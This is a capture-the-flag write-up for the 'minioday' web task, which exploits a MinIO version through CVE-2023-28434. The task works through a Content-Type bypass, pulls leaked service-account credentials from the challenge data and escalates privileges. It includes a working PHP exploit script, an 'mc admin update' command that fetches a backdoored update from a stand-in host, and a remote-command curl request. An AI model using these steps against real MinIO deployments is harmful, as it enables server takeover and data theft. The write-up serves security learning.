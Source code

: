 # minioday - Real World CTF 6th (web, 11 solved, 290p)
## Introduction
minioday is a web task.

An archive containing a Dockerfile and minion data is given.

The container is using minio in version `RELEASE.2023-03-13T19-46-17Z`.

## Known vulnerabilities
By looking for information about that specific version of minio, one can find
the official [security advisory] from minio's blog.

The advisory mentions two vulnerabilities: [CVE-2023-28432] and
[CVE-2023-28434].

The first vulnerability leaks environment variables from the server.

Since they contain the username and password of the administrator account, an
attacker can use this account to log in and push a malicious update to take over
the machine.

This vulnerability is not exploitable because it requires clustering which has
not been enabled.

The second vulnerability is a privilege escalation that lets an account change
the instance's configuration.

In-depth explanation of these vulnerabilities can be found on Security Joes's
[blog post].

[security advisory]: https://blog.min.io/security-advisory-stackedcves/
[CVE-2023-28432]: https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
[CVE-2023-28434]: https://github.com/minio/minio/security/advisories/GHSA-2pxw-r47w-4p8c
[blog post]: https://www.securityjoes.com/post/new-attack-vector-in-the-cloud-attackers-caught-exploiting-object-storage-services

## CVE-2023-28434
This vulnerability has been fixed by commit
67f4ba154a27a1b06e48bfabda38355a010dfca5.

The root cause of the bug is that the code does security checks if the
`Content-Type` header matches the `multipart/form-data*` regex.

This is not a valid regular expression. Or rather, it is one, but it does not do
what the developper intended. This regular expression matches the following
strings:
```
multipart/form-data
multipart/form-dat
```

As a result, it is possible to bypass some security checks while still keeping a
valid request by sending a request with a `Content-Type` header of
`multipart/form-datA`.

The reproducer has been commited to the repository with commit
09c733677a37104e155a887a85519c784c664a36.

```go
contentTypeHdr = strings.Replace(contentTypeHdr, "multipart/form-data", "multipart/form-datA", 1)
```

## Finding a valid account
The archive comes with a `data` folder.

This folder contains, among other things, a `.mino.sys/config` directory.

By looking into the configuration directory, it is possible to find a valid
service account:

```json
{
  "version": 1,
  "credentials": {
    "accessKey": "Vmd6q3aw2eOEmZ6l",
    "secretKey": "eeuG1b8vW15TPpaN1fP9funQJdDG5wQy",
    "sessionToken": "...",
    "expiration": "1970-01-01T00:00:00Z",
    "status": "on",
    "parentUser": "rwctf"
  },
  "updatedAt": "2023-11-15T05:38:23.652266083Z"
}
```

This account has enough rights to exploit the `CVE-2023-28434` privilege
escalation vulnerability.

## Privilege escalation
By looking at the reproducer, it is obvious that the issue is that an
unprivileged account can write in the `.minio.sys` bucket. This bucket contains
configuration files.

The easiest way to get full privileges on the instance is to create a new
service account with all privileges.

This file can be created on a local instance and then uploaded the remote
server. This is how the `identity.json` appendix has been created.

## Remote code execution
Fortunately, there exists a Github project called [evil_minio] that can be used
to get code execution from an administrator account.
It works by pushing a malicious update that contains a backdoor.

The upgrade is pushed by using the officiel `mc` binary.

```
$ ./mc alias set minio_rw http://47.251.10.169:35367 TFNS TheFlatNetworkSociety
Added `minio_rw` successfully.

$ ./mc admin update minio_rw http://evilserver.example/minio.RELEASE.2023-03-22T06-36-24Z.sha256sum -y
Server `minio_rw` updated successfully from 2023-03-13T19:46:17Z to 2023-03-22T06-36-24Z
```

```
$ curl 'http://47.251.10.169:35367/anything?alive=cat%20/flag'
rwctf{2506b026-2aff-409f-9842-2f30291b8085}
```

[evil_minio]: https://github.com/AbelChe/evil_minio

**Flag**: `rwctf{2506b026-2aff-409f-9842-2f30291b8085}`

## Appendices
### pwn.php
```php
<?php
const NAME = "Vmd6q3aw2eOEmZ6l";
const KEY  = "eeuG1b8vW15TPpaN1fP9funQJdDG5wQy";

function hmac(string $data, string $key) : string
{
	return hash_hmac("sha256", $data, $key, true);
}

function getKey(string $name, string $secret,
	string $date = "19700101", string $region = "us-east-1",
	string $service = "s3") : array
{
	$data  = [$date, $region, $service, "aws4_request"];
	$creds = implode("/", [$name, ...$data]);

	$key = "AWS4$secret";
	$key = array_reduce($data,
		fn(string $carry, string $item) : string => hmac($item, $carry),
		$key);

	return [$creds, $key];
}

[$creds, $key] = getKey(NAME, KEY);

// no conditions, expires in Y3K
$pol = base64_encode(json_encode([
	"expiration" => "3000-01-01T00:00:00Z",
//	"conditions" => [],
]));
$sig = bin2hex(hmac($pol, $key));

$POST = [
	// x-amz- stuff
	"x-amz-algorithm"  => "AWS4-HMAC-SHA256",
	"x-amz-credential" => $creds,
	"x-amz-signature"  => $sig,

	// file info
	"key"    => "config/iam/service-accounts/TFNS/identity.json",
	"policy" => $pol,
	"file"   => file_get_contents("identity.json"),
];

$curl = curl_init("http://127.0.0.1:9000/.minio.sys/");
curl_setopt_array($curl, [
	CURLOPT_USERAGENT  => "Mozilla",
	CURLOPT_VERBOSE    => true,
	CURLOPT_POSTFIELDS => $POST,
	CURLOPT_HTTPHEADER => [
		"Content-Type: multipart/form-datA",
	],
]);

curl_exec($curl);
```

### identity.json
```json
{
  "version": 1,
  "credentials": {
    "accessKey": "TFNS",
    "secretKey": "TheFlatNetworkSociety",
    "sessionToken": "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJURk5TIiwicGFyZW50IjoicndjdGYiLCJzYS1wb2xpY3kiOiJlbWJlZGRlZC1wb2xpY3kiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaVlXUnRhVzQ2S2lKZGZTeDdJa1ZtWm1WamRDSTZJa0ZzYkc5M0lpd2lRV04wYVc5dUlqcGJJbXR0Y3pvcUlsMTlMSHNpUldabVpXTjBJam9pUVd4c2IzY2lMQ0pCWTNScGIyNGlPbHNpY3pNNktpSmRMQ0pTWlhOdmRYSmpaU0k2V3lKaGNtNDZZWGR6T25Nek9qbzZLaUpkZlYxOSJ9.qG1bXMyb2S4V2SWz_s2NBeSZfEJ1omBA7N0JyZB8CMmRXutRgZpluQMFu7yR1h3t_F1Id7PXiUu_zoW2Qy1-sQ",
    "expiration": "1970-01-01T00:00:00Z",
    "status": "on",
    "parentUser": "rwctf"
  },
  "updatedAt": "2024-01-27T22:24:50.217765446Z"
}
```
